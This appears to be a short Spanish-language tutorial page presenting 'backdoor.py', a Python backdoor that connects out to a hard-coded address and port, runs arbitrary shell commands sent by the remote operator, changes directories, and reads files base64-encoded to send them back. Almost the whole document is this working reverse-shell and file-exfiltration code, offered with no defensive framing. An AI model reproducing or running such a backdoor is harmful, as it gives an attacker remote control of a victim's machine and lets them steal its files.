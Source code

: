  * Implementamos mejoras por si nos equivocamos de comando.

* backdoor.py

```bash
import socket
import subprocess
import json
import os
import base64

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n[+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True).decode("utf-8")

    def cambiar_directorio(self,ruta):
        os.chdir(ruta)
        return "[+] Cambiando de directorio a {} \n".format(ruta)
    
    def leer_archivo(self,ruta):
        with open(ruta,"rb") as file:
            return base64.b64encode(file.read()).decode("utf-8")

    def run(self):
        while True:
            comando = self.reception_segura()
            try:
                if comando[0] == "salir":
                    self.connection.close()
                    exit()
                elif comando[0] == "cd" and len(comando) > 1:
                    resultado_comando = self.cambiar_directorio(comando[1])
                elif comando[0] == "descargar":
                    resultado_comando = self.leer_archivo(comando[1])
                else:
                    resultado_comando = self.ejecutar_comando(comando)
            except Exception:
                resultado_comando = "[-] Error de ejecution \n"

            self.envio_seguro(resultado_comando)
       
backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```
